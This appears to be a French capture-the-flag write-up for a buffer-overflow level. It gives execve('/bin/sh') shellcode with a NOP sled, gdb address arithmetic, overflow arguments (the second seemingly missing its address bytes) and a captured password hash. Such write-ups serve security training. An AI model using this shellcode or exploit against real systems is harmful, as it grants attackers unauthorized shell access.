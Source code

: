 # Analyse du code

Buffer overflow normal. On voit que lon peut ecraser EIP.
Du coup nous allons utiliser un exploit en mettans notre shellcode dans les variables d'environement

# Preparation du payload

```bash
export LANG="nl"
export SHELLCODE=$(python -c 'print("\x90" * 1024 + "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")')
```

dans gdb 
(gdb) p/x getenv("SHELLCODE")
$1 = 0xbffff503

0xbffff503 + 0x200 = 0xbffff703

$(python -c "print('a' * 40)") $(python -c "print('b' * 23 + '')")



# Exploit

cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587

